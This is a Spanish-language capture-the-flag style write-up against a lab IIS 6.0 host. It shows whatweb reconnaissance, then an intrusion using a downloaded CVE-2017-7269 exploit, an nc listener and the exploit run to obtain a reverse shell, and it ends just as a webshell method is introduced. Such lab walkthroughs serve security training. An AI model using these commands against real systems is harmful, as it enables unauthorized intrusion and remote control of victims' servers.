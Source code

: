 ## RECONOCIMIENTO WEB
 
Iniciamos con el reconocimiento del servicio `web` donde inicialmente, por medio de la utilidad `whatweb` enumeramos información de librerías, gestores de contenido, entre otros.

```bash
whatweb 10.10.10.15
```
```bash
#OUTPUT
http://10.10.10.15 [200 OK] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/6.0], IP[10.10.10.15], Microsoft-IIS[6.0][Under Construction], MicrosoftOfficeWebServer[5.0_Pub], UncommonHeaders[microsoftofficewebserver], X-Powered-By[ASP.NET]
```

## INTRUSION IIS EXPLOIT

Hacemos uso del exploit [CVE-2017-7269](https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell) del github de [g0rx](https://github.com/g0rx) que nos va a generar una reverse shell directamente con la máquina víctima.

Descarga y renombramiento de exploit
```bash
cd ../exploit
wget https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell
mv iis6\ reverse\ shell iisExploit.py
```

Modo de uso exploit
```bash
python iisExploit.py
usage:iis6webdav.py targetip targetport reverseip reverseport
```

Creamos un listener
```bash
rlwrap nc -lnvp 4564
```

Ejecutamos el exploit
```bash
python iisExploit.py 10.10.10.15 80 10.10.14.8 4564
```

Reverse shell exitosa
```bash
#OUTPUT
whoami
nt authority\network service
```
## INTRUCIÓN WEBSHELL + SMBSERVER + NC

Otro método de intrusión se puede ejeutar por medio de la subida de una webshell al servidor víctima, para esto vamos a seguir las siguientes indicaciones.
